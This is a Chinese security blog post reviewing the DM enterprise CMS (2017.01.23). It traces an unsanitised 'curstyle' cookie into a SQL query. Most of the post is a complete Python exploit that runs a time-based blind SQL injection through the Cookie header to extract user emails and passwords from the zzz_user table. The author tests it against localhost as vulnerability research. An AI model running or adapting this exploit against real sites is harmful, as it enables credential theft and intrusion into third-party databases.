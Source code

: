 ```yaml
---
title: DM企业建站系统前台盲注
date: 2017-01-29 21:24:30
tags: 
 - cms
categories: codereview
---
```


# 概述
今天搞了一下动态调试的东西，然后顺便看了看上次下的[DM企业建站系统2017.01.23](http://www.demososo.com/down.html)。

<!-- more -->

# 前台cookie 时间盲注
大致跟了一下几个入口文件，该套cms主要的安全措施为`htmlentities`，在POST&&GET的输入点做了html实体化的操作，但是这并不转义单引号（默认不转义单引号具体可看[htmlentities](http://www.php.net/manual/en/function.htmlentities.php)），看了一下进行数据库查询的sql语句，涉及到字符串类型时，都是单引号闭合，那么很清楚，在进行数据库查询时容易产生sql注入漏洞。
那么接下来主要找一下进行数据库操作的位置。

1. POST&&GET
2. COOKIE 

ps：这里就随便找了一个地方，因为这套系统注入不要太多，连后台登陆都可以 :P

前面提到对POST&&GET做了实体转义，但是grep找了一下cookie，发现并没有对cookie的值进行安全操作，直接带入数据库查询。
indexDM_load.php Line 108

```
...

if(@$_COOKIE["curstyle"]<>'') 		
    $curstyle = $_COOKIE["curstyle"];
else 
    $curstyle = $row['curstyle'];
    
...

$sqlstyle = "SELECT * from ".TABLE_STYLE." where pidname='$curstyle' $andlangbh limit 1"; 
 //echo $sqlstyle;exit;
if(getnum($sqlstyle)>0){
	$rowstyle = getrow($sqlstyle);
```
上述为漏洞的主要成因点，如果cookie中存在curstyle,优先选用cookie中的值，然后带入数据库查询。由于没有找到具体回显数据的地方，所以采用时间盲注的方式获取数据。

带上自己写的EXP

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Created by wh1t3P1g at 2017/1/30

import requests,time

class CookieBlindSqlInjection:

    def __init__(self,url):
        self.url=url
        self.len=0

    def getLength(self,column,table):
        payload0 = "curstyle=1'||if((select length(cast(bin(length({column})) as char)) from {table} limit {line_start},1)={flag},sleep(5),1)=1#"
        payload1 = "curstyle=1'||if((select substr(bin(length({column})),{col_start},1) from {table} limit {line_start},1)=1,1,sleep(5))=1#"
        #first confirm bin-format data length
        len=0
        for i in range(1,9):
            cookie=payload0.format(column=column,table=table,line_start=0,flag=i)
            flag=self.send(cookie)
            if flag=="0":
                len=i
                break
        res=""
        for i in range(1,len+1):
            cookie=payload1.format(column=column,col_start=i,table=table,line_start=0)
            flag=self.send(cookie)
            res+=flag
            # print res
        self.len=int(res,2)
        pprint("*", "fetch "+column+" length: "+str(self.len))
        return int(res,2)

    def getData(self,column,table):
        payload0="curstyle=1'||if((select length(cast(bin(ascii(substr({column},{data_start},1))) as char)) from {table} limit {line_start},1)={flag},sleep(5),1)=1#"
        payload1 = "curstyle=1'||if((select substr(bin(ascii(substr({column},{data_start},1))),{col_start},1) from {table} limit {line_start},1)=1,1,sleep(5))=1#"
        total_res=""
        for i in range(1,self.len+1):#具体数据的长度
            len = 0
            for j in range(1, 9):
                cookie = payload0.format(column=column,data_start=i, table=table, line_start=0, flag=j)
                flag = self.send(cookie)
                if flag == "0":
                    len = j
                    break
            # print "len:"+str(len)
            res = ""
            for k in range(1, len + 1):
                cookie = payload1.format(column=column,data_start=i, col_start=k, table=table, line_start=0)
                flag = self.send(cookie)
                res += flag
                # print res
            total_res+=chr(int(res,2))
            pprint("*", "fetch "+column+": "+total_res)
        return total_res

    def send(self,cookie):
        headers={"Cookie":cookie}
        try:
            r = requests.get(self.url, headers=headers,timeout=4)
            return "1"
        except:
            return "0"

def pprint(flag,content):
    print "[{flag}] [{time}] {content}" \
        .format(flag=flag, time=time.asctime(time.localtime(time.time())), content=content)

if __name__=='__main__':
    cookieBlindSqlInjection=CookieBlindSqlInjection("http://127.0.0.1/cms/DM/20170123/")
    pprint("*","program start")
    pprint("*", "start fetching column[email]")
    cookieBlindSqlInjection.getLength("email","zzz_user")
    email=cookieBlindSqlInjection.getData("email","zzz_user")
    pprint("*", "start fetching column[ps]")
    cookieBlindSqlInjection.getLength("ps", "zzz_user")
    ps=cookieBlindSqlInjection.getData("ps", "zzz_user")
    pprint("*", "[email]: "+email+" ,[ps]: "+ps)
    pprint("*", "program done")

```

ps:DM这个鬼，代码写的好乱啊T_T




